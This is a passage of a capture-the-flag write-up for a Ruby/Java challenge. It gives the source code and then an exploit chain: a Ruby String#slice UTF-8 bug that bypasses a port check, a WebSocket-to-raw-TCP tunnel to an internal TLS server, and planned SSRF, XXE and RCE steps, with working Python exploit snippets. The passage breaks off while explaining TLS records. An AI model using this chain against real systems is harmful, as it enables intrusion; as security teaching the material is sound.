            Timeout.timeout(1) { backend.gets until backend.gets == "\r\n" }
          rescue
          end
        end
        
        Thread.new { loop { backend.write(io.readpartial(4096)) rescue break } }
        loop { io.write(backend.readpartial(4096)) rescue break }
      rescue Errno::ECONNREFUSED, Errno::ETIMEDOUT, Errno::EHOSTUNREACH => e
        io.close rescue nil
      rescue => e
        io.close rescue nil
      end
    end
    
    [-1, {}, []]
  end
end
```

WebSocket bridge endpoint. After authentication, it hijacks the HTTP connection and establishes a bidirectional proxy to an internal port. Default port is 3000, but can be changed via the `ref` parameter processed by `parse_backend_ref`. For port 3000, it performs a WebSocket handshake with the backend. For other ports (like 8080), it opens a raw TCP socket without protocol handling.

**Traffic Example:**
```http
GET /ws-bridge HTTP/1.1
Host: target:1337
Cookie: session=a1b2c3d4e5f6789012345678901234ab|7f8e9d0c1b2a3456789012345678901234567890123456789012345678901234
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
```

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

## Analyzing the Java Internal Application

The internal Java application consists of two servers: a TLS HTTPS server on port 8080 and a WebSocket server on port 3000.

```java
package com.internalapp;

public class InternalApplication {
    public static void main(String[] args) {
        TlsServer.start();
        WsServer.startServer();
        
        try {
            Thread.currentThread().join();
        } catch (InterruptedException e) {
            System.exit(0);
        }
    }
}
```

The main class simply starts both servers and then waits indefinitely. Let's examine each server.

### The TLS Server

```java
package com.internalapp;

import com.sun.net.httpserver.*;
import javax.net.ssl.*;
import java.io.*;
import java.net.InetSocketAddress;
import java.security.KeyStore;

public class TlsServer {
    
    private static final int HTTPS_PORT = 8080;
    private static final String KEYSTORE_PATH = "/opt/internal-app/keystore.p12";
    private static final String TRUSTSTORE_PATH = "/opt/internal-app/truststore.p12";
    private static final String STORE_PASSWORD = System.getenv("STORE_PASSWORD") != null ? System.getenv("STORE_PASSWORD") : "changeit";
    
    public static void start() {
        try {
            File keystoreFile = new File(KEYSTORE_PATH);
            File truststoreFile = new File(TRUSTSTORE_PATH);
            
            if (!keystoreFile.exists() || !truststoreFile.exists()) {
                return;
            }
            
            KeyManagerFactory kmf = getKeyManagerFactory(KEYSTORE_PATH, STORE_PASSWORD.toCharArray());
            TrustManagerFactory tmf = getTrustManagerFactory(TRUSTSTORE_PATH, STORE_PASSWORD.toCharArray());
            SSLContext sslContext = getSSLContext(kmf, tmf);
            
            HttpsServer server = HttpsServer.create(new InetSocketAddress("127.0.0.1", HTTPS_PORT), 0);
            server.setHttpsConfigurator(new HttpsConfigurator(sslContext) {
                @Override
                public void configure(HttpsParameters params) {
                    SSLParameters sslParams = getSSLContext().getDefaultSSLParameters();
                    sslParams.setWantClientAuth(true);
                    params.setSSLParameters(sslParams);
                }
            });
            
            server.createContext("/", exchange -> {
                String response = "Archmaester's Vault - Sealed Chamber\n";
                exchange.sendResponseHeaders(200, response.length());
                try (OutputStream os = exchange.getResponseBody()) {
                    os.write(response.getBytes());
                }
            });
            
            server.createContext("/realms", exchange -> {
                String html = "<!DOCTYPE html><html><head><title>Realm Observatory</title><style>" +
                    "body{background:#0a0a0a;color:#d4af37;font-family:serif;padding:40px;margin:0}" +
                    "h1{text-align:center;font-size:2.5em;text-shadow:0 0 10px #d4af37;margin-bottom:30px}" +
                    ".realm{background:rgba(212,175,55,0.1);border:2px solid #d4af37;padding:20px;margin:20px 0;border-radius:8px}" +
                    ".realm h2{color:#ffd700;margin-top:0}" +
                    ".status{display:inline-block;padding:5px 15px;background:#1a1a1a;border-radius:4px;margin:5px 0}" +
                    ".active{color:#00ff00}" +
                    ".dormant{color:#ff6600}" +
                    "</style></head><body>" +
                    "<h1>ᛟ Realm Observatory ᛟ</h1>" +
                    "<div class='realm'><h2>The Frozen Wastes</h2><p>Status: <span class='status active'>Active Scrying</span></p><p>Last Vision: 2 hours ago</p><p>Knowledge Level: High</p></div>" +
                    "<div class='realm'><h2>The Golden Empire</h2><p>Status: <span class='status active'>Active Scrying</span></p><p>Last Vision: 45 minutes ago</p><p>Knowledge Level: Moderate</p></div>" +
                    "<div class='realm'><h2>The Shadow Isles</h2><p>Status: <span class='status dormant'>Dormant</span></p><p>Last Vision: 3 days ago</p><p>Knowledge Level: Low</p></div>" +
                    "<div class='realm'><h2>The Emerald Coast</h2><p>Status: <span class='status active'>Active Scrying</span></p><p>Last Vision: 15 minutes ago</p><p>Knowledge Level: Very High</p></div>" +
                    "<div class='realm'><h2>The Crimson Desert</h2><p>Status: <span class='status dormant'>Dormant</span></p><p>Last Vision: 1 week ago</p><p>Knowledge Level: Minimal</p></div>" +
                    "</body></html>";
                exchange.getResponseHeaders().set("Content-Type", "text/html");
                exchange.sendResponseHeaders(200, html.length());
                try (OutputStream os = exchange.getResponseBody()) {
                    os.write(html.getBytes());
                }
            });
            
            server.createContext("/api/realm-secrets", exchange -> {
                String json = "{\"secrets\":[" +
                    "{\"realm\":\"The Frozen Wastes\",\"secret\":\"Ancient ice magic detected\",\"danger_level\":\"high\"}," +
                    "{\"realm\":\"The Golden Empire\",\"secret\":\"Dragon egg rumors confirmed\",\"danger_level\":\"critical\"}," +
                    "{\"realm\":\"The Emerald Coast\",\"secret\":\"Naval fleet movements observed\",\"danger_level\":\"moderate\"}" +
                    "],\"total\":3,\"classification\":\"forbidden\"}";
                exchange.getResponseHeaders().set("Content-Type", "application/json");
                exchange.sendResponseHeaders(200, json.length());
                try (OutputStream os = exchange.getResponseBody()) {
                    os.write(json.getBytes());
                }
            });
            
            server.createContext("/api/prophecies", exchange -> {
                String json = "{\"prophecies\":[" +
                    "{\"id\":1,\"text\":\"When winter comes, the realm shall tremble\",\"source\":\"Northern Candle\",\"reliability\":0.89}," +
                    "{\"id\":2,\"text\":\"Fire and shadow shall dance as one\",\"source\":\"Eastern Candle\",\"reliability\":0.72}," +
                    "{\"id\":3,\"text\":\"The lost heir walks among the forgotten\",\"source\":\"Central Candle\",\"reliability\":0.95}" +
                    "],\"total\":3,\"last_updated\":" + System.currentTimeMillis() + "}";
                exchange.getResponseHeaders().set("Content-Type", "application/json");
                exchange.sendResponseHeaders(200, json.length());
                try (OutputStream os = exchange.getResponseBody()) {
                    os.write(json.getBytes());
                }
            });
            
            server.setExecutor(java.util.concurrent.Executors.newFixedThreadPool(10));
            new Thread(server::start).start();
        } catch (Exception e) {
        }
    }
    
    private static SSLContext getSSLContext(KeyManagerFactory kmf, TrustManagerFactory tmf) throws Exception {
        SSLContext sslContext = SSLContext.getInstance("TLS");
        sslContext.init(kmf.getKeyManagers(), tmf.getTrustManagers(), null);
        return sslContext;
    }
    
    private static KeyManagerFactory getKeyManagerFactory(String keystore, char[] password) throws Exception {
        KeyStore ks = KeyStore.getInstance("PKCS12");
        try (FileInputStream fis = new FileInputStream(keystore)) {
            ks.load(fis, password);
        }
        KeyManagerFactory kmf = KeyManagerFactory.getInstance("PKIX");
        kmf.init(ks, password);
        return kmf;
    }
    
    private static TrustManagerFactory getTrustManagerFactory(String truststore, char[] password) throws Exception {
        KeyStore ts = KeyStore.getInstance("PKCS12");
        try (FileInputStream fis = new FileInputStream(truststore)) {
            ts.load(fis, password);
        }
        TrustManagerFactory tmf = TrustManagerFactory.getInstance("PKIX");
        tmf.init(ts);
        return tmf;
    }
}
```

The TLS server binds to `127.0.0.1:8080`, meaning it's only accessible from within the container. It loads the keystores that were generated by the entrypoint script, using the random password from the `STORE_PASSWORD` environment variable.

**Normal TLS Server Traffic Examples:**

The TLS server exposes several endpoints for internal use. Here are examples of legitimate HTTPS requests and responses:

*GET / - Root endpoint:*
```
HTTP/1.1 200 OK
Content-Length: 37

Archmaester's Vault - Sealed Chamber
```

*GET /realms - Realm Observatory HTML page:*
```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html><html><head><title>Realm Observatory</title><style>
body{background:#0a0a0a;color:#d4af37;font-family:serif;padding:40px;margin:0}
h1{text-align:center;font-size:2.5em;text-shadow:0 0 10px #d4af37;margin-bottom:30px}
.realm{background:rgba(212,175,55,0.1);border:2px solid #d4af37;padding:20px;margin:20px 0;border-radius:8px}
.realm h2{margin:0 0 10px 0;color:#ffd700}
.status{padding:4px 12px;border-radius:4px;font-weight:bold}
.active{color:#00ff00}
.dormant{color:#ff6600}
</style></head><body>
<h1>ᛟ Realm Observatory ᛟ</h1>
<div class='realm'><h2>The Frozen Wastes</h2><p>Status: <span class='status active'>Active Scrying</span></p><p>Last Vision: 2 hours ago</p><p>Knowledge Level: High</p></div>
<div class='realm'><h2>The Golden Empire</h2><p>Status: <span class='status active'>Active Scrying</span></p><p>Last Vision: 45 minutes ago</p><p>Knowledge Level: Moderate</p></div>
<div class='realm'><h2>The Shadow Isles</h2><p>Status: <span class='status dormant'>Dormant</span></p><p>Last Vision: 3 days ago</p><p>Knowledge Level: Low</p></div>
</body></html>
```
Returns a styled HTML page showing the status of various realms being monitored.

*GET /api/realm-secrets - Classified intelligence:*
```json
{
  "secrets": [
    {"realm": "The Frozen Wastes", "secret": "Ancient ice magic detected", "danger_level": "high"},
    {"realm": "The Golden Empire", "secret": "Dragon egg rumors confirmed", "danger_level": "critical"},
    {"realm": "The Emerald Coast", "secret": "Naval fleet movements observed", "danger_level": "moderate"}
  ],
  "total": 3,
  "classification": "forbidden"
}
```

*GET /api/prophecies - Prophecy fragments:*
```json
{
  "prophecies": [
    {"id": 1, "text": "When winter comes, the realm shall tremble", "source": "Northern Candle", "reliability": 0.89},
    {"id": 2, "text": "Fire and shadow shall dance as one", "source": "Eastern Candle", "reliability": 0.72},
    {"id": 3, "text": "The lost heir walks among the forgotten", "source": "Central Candle", "reliability": 0.95}
  ],
  "total": 3,
  "last_updated": 1738843200000
}
```

The critical configuration is `setWantClientAuth(true)`, which tells the server to request a client certificate during the TLS handshake, but not require one. When a client presents a certificate, Java's TLS implementation validates it using the PKIX algorithm, which includes checking the certificate chain. The `TrustManagerFactory` is initialized with "PKIX" algorithm, which enables certificate path validation including checking Authority Information Access (AIA) extensions.

### The WebSocket XML Parser

```java
package com.internalapp;

import org.java_websocket.WebSocket;
import org.java_websocket.handshake.ClientHandshake;
import org.java_websocket.server.WebSocketServer;
import javax.xml.parsers.*;
import org.xml.sax.InputSource;
import java.io.*;
import java.net.InetSocketAddress;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import org.json.JSONObject;

public class WsServer extends WebSocketServer {
    
    private static final int WS_PORT = 3000;
    
    public WsServer(InetSocketAddress address) {
        super(address);
    }
    
    public static void startServer() {
        try {
            WsServer server = new WsServer(new InetSocketAddress("127.0.0.1", WS_PORT));
            server.setReuseAddr(true);
            server.start();
        } catch (Exception e) {
        }
    }
    
    @Override
    public void onOpen(WebSocket conn, ClientHandshake handshake) {
    }
    
    @Override
    public void onClose(WebSocket conn, int code, String reason, boolean remote) {
    }
    
    @Override
    public void onMessage(WebSocket conn, String message) {
        try {
            JSONObject json = new JSONObject(message);
            
            if (json.has("action")) {
                String action = json.getString("action");
                
                switch (action) {
                    case "process_xml":
                        String base64Xml = json.getString("xml");
                        processXml(conn, base64Xml);
                        break;
                    case "get_candle_status":
                        sendCandleStatus(conn);
                        break;
                    case "get_realm_activity":
                        sendRealmActivity(conn);
                        break;
                    default:
                        sendError(conn, "Unknown action");
                }
            } else {
                sendError(conn, "Missing 'action' field");
            }
        } catch (Exception e) {
            sendError(conn, "Invalid JSON format");
        }
    }
    
    private void processXml(WebSocket conn, String base64Xml) {
        try {
            byte[] xmlBytes = Base64.getDecoder().decode(base64Xml);
            String xmlContent = new String(xmlBytes, StandardCharsets.UTF_8);
            
            DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
            DocumentBuilder builder = factory.newDocumentBuilder();
            
            builder.setEntityResolver((publicId, systemId) -> {
                try {
                    if (systemId != null) {
                        String lowerSystemId = systemId.toLowerCase();
                        if (!lowerSystemId.startsWith("http://") && !lowerSystemId.startsWith("file://")) {
                            return new InputSource(new StringReader(""));
                        }
                    }
                    return null;
                } catch (Exception e) {
                    return new InputSource(new StringReader(""));
                }
            });
            
            builder.parse(new InputSource(new StringReader(xmlContent)));
        } catch (Exception e) {
        }
        
        sendGenericResponse(conn);
    }
    
    private void sendGenericResponse(WebSocket conn) {
        try {
            JSONObject response = new JSONObject();
            response.put("status", "ok");
            conn.send(response.toString());
        } catch (Exception e) {
        }
    }
    
    private void sendError(WebSocket conn, String message) {
        sendGenericResponse(conn);
    }
    
    private void sendCandleStatus(WebSocket conn) {
        try {
            JSONObject response = new JSONObject();
            response.put("status", "active");
            response.put("candles_lit", 7);
            response.put("network_strength", "strong");
            response.put("flame_color", "obsidian-blue");
            response.put("last_ignition", System.currentTimeMillis() - 3600000);
            response.put("connected_chambers", new String[]{"Northern Citadel", "Eastern Archive", "Southern Vault", "Western Library", "Central Sanctum", "Coastal Observatory", "Mountain Monastery"});
            response.put("dragon_proximity", true);
            response.put("magic_level", 87.5);
            conn.send(response.toString());
        } catch (Exception e) {
        }
    }
    
    private void sendRealmActivity(WebSocket conn) {
        try {
            JSONObject response = new JSONObject();
            response.put("total_visions", 142);
            response.put("active_scrying", 3);
            response.put("recent_realms", new String[]{"The Frozen Wastes", "The Golden Empire", "The Shadow Isles", "The Emerald Coast", "The Crimson Desert"});
            response.put("prophecy_fragments", 23);
            response.put("forbidden_knowledge_accessed", 8);
            response.put("last_vision_timestamp", System.currentTimeMillis() - 120000);
            response.put("network_traffic", "moderate");
            response.put("anomalies_detected", 2);
            conn.send(response.toString());
        } catch (Exception e) {
        }
    }
    
    @Override
    public void onError(WebSocket conn, Exception ex) {
    }
    
    @Override
    public void onStart() {
        setConnectionLostTimeout(0);
        setConnectionLostTimeout(100);
    }
}
```

The WebSocket server also binds to localhost only, on port 3000. It handles JSON messages from connected clients. The `onMessage` handler parses incoming JSON and routes to different actions based on the `action` field. Three actions are supported: `process_xml` accepts base64-encoded XML and parses it, `get_candle_status` returns network status information, and `get_realm_activity` returns activity metrics. The `processXml` function decodes the base64 XML, creates a `DocumentBuilder` with a custom `EntityResolver`, and parses the XML content.

**Normal WebSocket Traffic Examples:**

Clients can interact with the WebSocket server by sending JSON messages. Here are examples of legitimate traffic:

*Request - Get Candle Status:*
```json
{"action": "get_candle_status"}
```

*Response:*
```json
{
  "status": "active",
  "candles_lit": 7,
  "network_strength": "strong",
  "flame_color": "obsidian-blue",
  "last_ignition": 1738839600000,
  "connected_chambers": ["Northern Citadel", "Eastern Archive", "Southern Vault", "Western Library", "Central Sanctum", "Coastal Observatory", "Mountain Monastery"],
  "dragon_proximity": true,
  "magic_level": 87.5
}
```

*Request - Get Realm Activity:*
```json
{"action": "get_realm_activity"}
```

*Response:*
```json
{
  "total_visions": 142,
  "active_scrying": 3,
  "recent_realms": ["The Frozen Wastes", "The Golden Empire", "The Shadow Isles", "The Emerald Coast", "The Crimson Desert"],
  "prophecy_fragments": 23,
  "forbidden_knowledge_accessed": 8,
  "last_vision_timestamp": 1738843080000,
  "network_traffic": "moderate",
  "anomalies_detected": 2
}
```

*Request - Process XML (legitimate):*
```json
{"action": "process_xml", "xml": "PD94bWwgdmVyc2lvbj0iMS4wIj8+PHJvb3Q+dGVzdDwvcm9vdD4="}
```

*Response:*
```json
{"status": "ok"}
```

## System Architecture

Now that we've analyzed the source code, let's understand the complete architecture of this application and how the different components interact.

### High-Level Architecture Diagram

```
Docker Container
+------------------------------------------------------------------+
|  Supervisord (Process Manager)                                    |
|       |                                                           |
|       +---> External App (Ruby/Sinatra) - Port 1337 (exposed)     |
|       |         /login, /register, /dashboard, /profile           |
|       |         /ws-bridge (WebSocket Bridge)                     |
|       |         sessions/ (YARV Bytecode), users.json             |
|       |              |                                            |
|       |              +---> TCP Proxy to Internal App              |
|       |                                                           |
|       +---> Internal App (Java)                                   |
|                 TLS Server - Port 8080 (localhost only)           |
|                 WS Server - Port 3000 (localhost only)            |
|                                                                   |
|  /tmp/                          /root/                            |
|    jar_cache*.tmp                 flag_XXXXX.txt                  |
|    flag_output.txt                                                |
|                                                                   |
|  /usr/local/bin/readflag (SUID binary - runs as root)             |
+------------------------------------------------------------------+
        ^
        | Port 1337 (only exposed port)
        |
   [Attacker]
```

### Component Summary

The application consists of two main components running inside a Docker container, managed by Supervisord.

**External Application (Ruby/Sinatra)** - This is the only externally accessible component, listening on port 1337. It handles user authentication through `/login` and `/register` endpoints, manages user sessions stored as YARV bytecode files in the `sessions/` directory, and provides authenticated users access to `/dashboard` and `/profile` pages. Most importantly, it includes a `/ws-bridge` endpoint that acts as a WebSocket-to-TCP bridge, allowing connections to internal services.

**Internal Application (Java)** - This application runs two servers that are only accessible from localhost. The TLS Server on port 8080 provides HTTPS with client certificate support using Java's PKIX TrustManager. The WebSocket Server on port 3000 accepts JSON-based commands including an XML processing feature. Neither server is directly accessible from outside the container.

**WebSocket Bridge** - The `/ws-bridge` endpoint is the critical link between external users and internal services. It acts as a transparent TCP proxy that forwards WebSocket connections to internal ports. For port 3000, it performs a proper WebSocket handshake; for other ports (like 8080), it becomes a raw TCP tunnel, allowing arbitrary protocols like TLS to pass through.

**The Flag** - The flag is stored in `/root/flag_XXXXX.txt` and is only readable by root. A SUID binary at `/usr/local/bin/readflag` can read and output the flag, but it must be executed by the application.

## Exploitation

The exploit chains multiple vulnerabilities to achieve RCE. The Java internal app has two servers: WebSocket (port 3000) with XXE, and TLS (port 8080) with AIA SSRF.

**Attack Chain Overview:**
```
Step 1:  Ruby slice bug bypasses port validation
Step 2:  Downgrade WebSocket connection to raw TCP tunnel
Step 3:  TLS handshake triggers AIA SSRF (CVE-2026-21945)
Step 4:  jar: protocol causes file upload to /tmp
Step 5:  Create YARV/ZIP polyglot payload
Step 6:  Blind OOB XXE leaks users.json (get HMAC secret)
Step 7:  Blind OOB XXE leaks /tmp directory (find jar_cache filename)
Step 8:  Use secret to craft HMAC signature
Step 9:  Path traversal on session cookie ID
Step 10: Load YARV bytecode -> RCE -> Exfiltrate flag
```

### Prerequisites: Register and Login

Before exploiting the vulnerabilities, we need a valid session cookie to access the WebSocket bridge. The `/ws-bridge` endpoint requires authentication.

```python
# Register a new user
requests.post(f"{RUBY_URL}/register", data={"username": USERNAME, "password": PASSWORD})

# Login to get session cookie
login_resp = requests.post(f"{RUBY_URL}/login", data={"username": USERNAME, "password": PASSWORD}, allow_redirects=False)
session_cookie = login_resp.cookies.get('session')
```

### Step 1: Ruby String#slice UTF-8 Bug - Bypassing Port Validation

### The Vulnerability in Ruby's C Source

This vulnerability was discovered by **nastystereo** and documented at [https://nastystereo.com/security/ruby-slice.html](https://nastystereo.com/security/ruby-slice.html). The bug exists in Ruby's `string.c` source code, specifically in the `rb_str_subpos` function.

**The vulnerable Ruby code in our application:**

```ruby
def parse_backend_ref(ref)
  return nil if ref.nil? || ref.empty?
  
  ref_utf8 = ref.dup.force_encoding('UTF-8')
  suffix = ref_utf8.slice(-1, 1)  # BUG: Can return more than 1 character!
  return nil if suffix.nil?
  return nil if suffix.length <= 1  # Guard meant to block exploitation
  
  ref_binary = ref.force_encoding('ASCII-8BIT')
  if ref_binary =~ /(\d{4})[^\d]*$/
    $1.to_i
  else
    nil
  end
end
```

The developer intended `slice(-1, 1)` to return exactly 1 character. The check `suffix.length <= 1` was meant to ensure valid input. However, due to the Ruby bug, `slice(-1, 1)` can return **more than 1 byte** when the string ends with an invalid UTF-8 continuation byte.

### How UTF-8 Encoding Works

UTF-8 is a variable-width encoding where characters can be 1-4 bytes:

```
1-byte:  0xxxxxxx                 (ASCII, 0x00-0x7F)
2-byte:  110xxxxx 10xxxxxx        (0xC0-0xDF, then 0x80-0xBF)
3-byte:  1110xxxx 10xxxxxx 10xxxxxx
4-byte:  11110xxx 10xxxxxx 10xxxxxx 10xxxxxx
```

Bytes `0x80-0xBF` are **continuation bytes** - they should only appear as the 2nd, 3rd, or 4th byte of a multi-byte sequence. A lone `0x80` at the end of a string is invalid UTF-8.

### The Bug in Ruby's C Code

From Ruby's `string.c` (Ruby 3.3.x), the `rb_str_subpos` function handles negative indices. Here is the actual vulnerable code path:

```c
// From ruby/string.c - rb_str_subpos function
static char *
rb_str_subpos(VALUE str, long beg, long *lenp)
{
    long len = *lenp;
    long slen = -1L;
    const long blen = RSTRING_LEN(str);
    rb_encoding *enc = STR_ENC_GET(str);
    char *s = RSTRING_PTR(str), *e = s + blen;
    char *p;

    if (beg < 0) {
        if (len > -beg) len = -beg;
        // OPTIMIZATION: For long strings with small negative index
        if (-beg * rb_enc_mbmaxlen(enc) < blen / 8) {
            beg = -beg;
            // Walk backwards from end to find character boundary
            while (beg-- > len && (e = rb_enc_prev_char(s, e, e, enc)) != 0);
            p = e;
            if (!p) return 0;
            // BUG: rb_enc_prev_char doesn't properly validate UTF-8 sequences
            while (len-- > 0 && (p = rb_enc_prev_char(s, p, e, enc)) != 0);
            if (!p) return 0;
            *lenp = e - p;  // Returns wrong length for malformed UTF-8!
            return p;
        }
        // Fallback path for short strings - counts from beginning
        slen = str_strlen(str, enc);
        beg += slen;
        if (beg < 0) return 0;
        if (beg > slen) return 0;
        if (len == 0) {
            *lenp = 0;
            return rb_str_nth_char(str, beg);
        }
        if (beg + len > slen) len = slen - beg;
        *lenp = len;
        return rb_str_nth_char(str, beg);
    }
    // Handle positive indices
    if (beg > 0) {
        if (beg * rb_enc_mbmaxlen(enc) < blen / 8) {
            p = s;
            while (beg-- > 0 && (p = rb_enc_left_char_head(s, p + 1, e, enc)) < e);
        }
        else {
            slen = str_strlen(str, enc);
            if (beg > slen) return 0;
            p = rb_str_nth_char(str, beg);
        }
    }
    else {
        p = s;
    }
    if (len == 0) {
        *lenp = 0;
        return p;
    }
    return p;
}
```

The `rb_enc_prev_char` function in `encoding.c` is responsible for finding the previous character boundary:

```c
// From ruby/encoding.c - rb_enc_prev_char function
char *
rb_enc_prev_char(const char *s, const char *p, const char *e, rb_encoding *enc)
{
    // For UTF-8 encoding
    if (rb_enc_mbminlen(enc) == 1) {
        // Scan backwards looking for a non-continuation byte
        while (s < p) {
            --p;
            // BUG: This only checks if byte is NOT a continuation byte (0x80-0xBF)
            // It doesn't validate the complete multi-byte sequence
            if (!rb_enc_ismbchead((unsigned char)*p, enc)) continue;
            break;
        }
    }
    return (char *)p;
}
```

The bug occurs because:
1. When walking backwards, `rb_enc_prev_char` looks for a "head" byte (not a continuation byte)
2. For a string ending with a lone `0x80` (invalid continuation byte), it keeps walking back
3. This causes it to incorrectly include the preceding ASCII byte as part of the "character"
4. The returned slice length is thus 2 bytes instead of 1

When the string is long enough to trigger the optimization path, Ruby uses `rb_enc_prev_char` to find character boundaries. This function fails to properly handle invalid UTF-8 continuation bytes, causing it to include extra bytes in the returned slice.

### Proof of Concept

```ruby
irb> ("A"*37 + "\x80").slice(-1, 1).size
=> 1  # Correct
irb> ("A"*38 + "\x80").slice(-1, 1).size
=> 1  # Correct
irb> ("A"*39 + "\x80").slice(-1, 1).size
=> 2  # BUG! Expected 1, got 2
```

The threshold of 39 characters triggers the optimization path where the bug manifests.

### Exploiting the Bug

We craft a payload: `"A" * 35 + "8080" + "\x80"` (40 bytes total)

1. Ruby calls `slice(-1, 1)` expecting to get just `"\x80"`
2. Due to the bug, it returns `"0\x80"` (2 bytes)
3. `suffix.length` is 2, which is `> 1`, so the guard passes
4. The regex `/(\d{4})[^\d]*$/` matches and extracts `8080`
5. The function returns port `8080` instead of `nil`

```python
def build_backend_ref_bytes(port):
    padding = b"A" * 35
    high_bit = b"\x80"  # Invalid UTF-8 continuation byte
    return padding + str(port).encode("ascii") + high_bit
```

### Step 2: WebSocket-to-TCP Downgrade - Smuggling TLS Through the Bridge

### The Complete /ws-bridge Route

The `/ws-bridge` endpoint is the critical component that enables our attack. Here is the complete code from `app.rb`:

```ruby
get '/ws-bridge' do
  session_cookie = request.cookies['session']
  
  if session_cookie.nil? || session_cookie.empty?
    halt 401, 'Unauthorized'
  end
  
  parsed = parse_session_cookie(session_cookie)
  if parsed.nil?
    halt 401, 'Unauthorized'
  end
  
  session_data = load_session(parsed[:session_id])
  if session_data.nil?
    halt 401, 'Unauthorized'
  end
  
  user = find_user_by_username(session_data[:username])
  if user.nil?
    halt 401, 'Unauthorized'
  end
  
  unless verify_signature(session_data[:username], parsed[:signature], user['secret'])
    halt 401, 'Unauthorized'
  end
  
  if request.env['HTTP_UPGRADE']&.downcase == 'websocket'
    port = 3000  # Default port is WebSocket server
    
    backend_ref = params['ref']
    parsed_port = parse_backend_ref(backend_ref)  # VULNERABLE: Uses slice bug!
    port = parsed_port if parsed_port
    
    request.env['rack.hijack'].call
    io = request.env['rack.hijack_io']
    
    Thread.new do
      begin
        key = request.env['HTTP_SEC_WEBSOCKET_KEY']
        accept = Digest::SHA1.base64digest(key + '258EAFA5-E914-47DA-95CA-C5AB0DC85B11')
        
        # Complete WebSocket handshake with client
        io.write("HTTP/1.1 101 Switching Protocols\r\n")
        io.write("Upgrade: websocket\r\n")
        io.write("Connection: Upgrade\r\n")
        io.write("Sec-WebSocket-Accept: #{accept}\r\n\r\n")
        io.flush
        
        # Open TCP connection to internal service
        backend = TCPSocket.new('127.0.0.1', port)
        
        if port == 3000
          # For WebSocket server: perform WebSocket handshake with backend
          begin
            k = SecureRandom.base64(16)
            backend.write("GET / HTTP/1.1\r\n")
            backend.write("Host: 127.0.0.1:#{port}\r\n")
            backend.write("Upgrade: websocket\r\n")
            backend.write("Connection: Upgrade\r\n")
            backend.write("Sec-WebSocket-Key: #{k}\r\n")
            backend.write("Sec-WebSocket-Version: 13\r\n")
            backend.write("\r\n")
            backend.flush
            Timeout.timeout(1) { backend.gets until backend.gets == "\r\n" }
          rescue
          end
        end
        # For ANY OTHER PORT (like 8080): NO handshake!
        # Raw TCP proxy - this is the vulnerability we exploit
        
        # Bidirectional proxy: client <-> backend
        Thread.new { loop { backend.write(io.readpartial(4096)) rescue break } }
        loop { io.write(backend.readpartial(4096)) rescue break }
      rescue Errno::ECONNREFUSED, Errno::ETIMEDOUT, Errno::EHOSTUNREACH => e
        io.close rescue nil
      rescue => e
        io.close rescue nil
      end
    end
    
    [-1, {}, []]
  end
end
```

### Why TLS Can Be Smuggled Through WebSocket

The key vulnerability is in the port handling:

1. **Default port is 3000** - The WebSocket server with XXE
2. **`parse_backend_ref` extracts port from `ref` parameter** - This uses the vulnerable slice bug
3. **Port 3000 gets WebSocket handshake** - Proper WebSocket-to-WebSocket proxying
4. **Any other port gets RAW TCP** - No protocol handling, just byte forwarding

For port 3000, the bridge speaks WebSocket to the backend Java server. But for **any other port** (like 8080), it opens a raw TCP socket and simply proxies bytes bidirectionally without any protocol handling.

### The WebSocket-TLS Layering

Our attack exploits this to create a tunnel:

```
[Attacker] <--WebSocket--> [Ruby Bridge] <--Raw TCP--> [Java TLS :8080]
```

1. We upgrade our HTTP connection to WebSocket with the Ruby bridge
2. The Ruby bridge opens a raw TCP socket to port 8080
3. We layer TLS on top of our WebSocket connection
4. Our TLS traffic passes through the bridge as opaque bytes
5. The Java TLS server receives valid TLS and responds

This works because:
- WebSocket is a framing protocol that can carry arbitrary binary data
- The bridge doesn't inspect the payload content
- TLS is just bytes from the bridge's perspective
- The Java TLS server only sees a valid TLS connection

### Implementation

```python
# Step 1: Exploit slice bug to get port 8080
backend_ref_bytes = build_backend_ref_bytes(8080)
encoded_ref = urllib.parse.quote_from_bytes(backend_ref_bytes)
ws_url = f"ws://{TARGET_HOST}:{TARGET_RUBY_PORT}/ws-bridge?ref={encoded_ref}"

# Step 2: Establish WebSocket connection
ws = websocket.WebSocket()
ws.connect(ws_url, cookie=f"session={session_cookie}")

# Step 3: Layer TLS on top of the raw socket
ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
ctx.load_cert_chain(cert_path, key_path)  # Our malicious cert

# Step 4: Perform TLS handshake through the tunnel
ssl_sock = ctx.wrap_socket(ws.sock, server_hostname=TARGET_HOST, do_handshake_on_connect=False)
ssl_sock.do_handshake()  # This sends TLS Client Hello with our cert
```

### Step 3: TLS AIA SSRF (CVE-2026-21945) - The Certificate Validation Attack

### Understanding TLS (Transport Layer Security)

TLS is a cryptographic protocol that provides secure communication over a network. Before we can exploit the AIA vulnerability, we need to understand how TLS works at the protocol level.

**TLS Record Protocol:**

All TLS data is transmitted in **records**. Each record has a 5-byte header followed by the payload:

```
TLS Record Format:
+-------------+----------------+----------------+------------------+
| Content Type| Version        | Length         | Payload          |
| (1 byte)    | (2 bytes)      | (2 bytes)      | (variable)       |
+-------------+----------------+----------------+------------------+

Content Types:
  0x14 = ChangeCipherSpec
  0x15 = Alert
  0x16 = Handshake    <-- Used during connection setup
  0x17 = Application Data (encrypted after handshake)

Version:
  0x0301 = TLS 1.0
  0x0302 = TLS 1.1
  0x0303 = TLS 1.2
  0x0304 = TLS 1.3

Length:
  Big-endian 16-bit length of payload (max 16384 bytes)
```

**Example TLS Record (ClientHello):**
```
16 03 01 00 F1
│  │  │  └──┴── Length: 241 bytes
│  └──┴──────── Version: TLS 1.0 (compatibility)
└────────────── Content Type: Handshake (0x16)
```

**TLS Handshake Messages:**

Within a Handshake record (content type 0x16), messages have their own header:

```
Handshake Message Format:
+-------------+----------------+------------------+
| Msg Type    | Length         | Handshake Data   |
| (1 byte)    | (3 bytes)      | (variable)       |
+-------------+----------------+------------------+

Handshake Types:
  0x01 = ClientHello
  0x02 = ServerHello
  0x0B = Certificate        <-- Contains X.509 cert chain
  0x0C = ServerKeyExchange
  0x0D = CertificateRequest <-- Server asks for client cert
  0x0E = ServerHelloDone
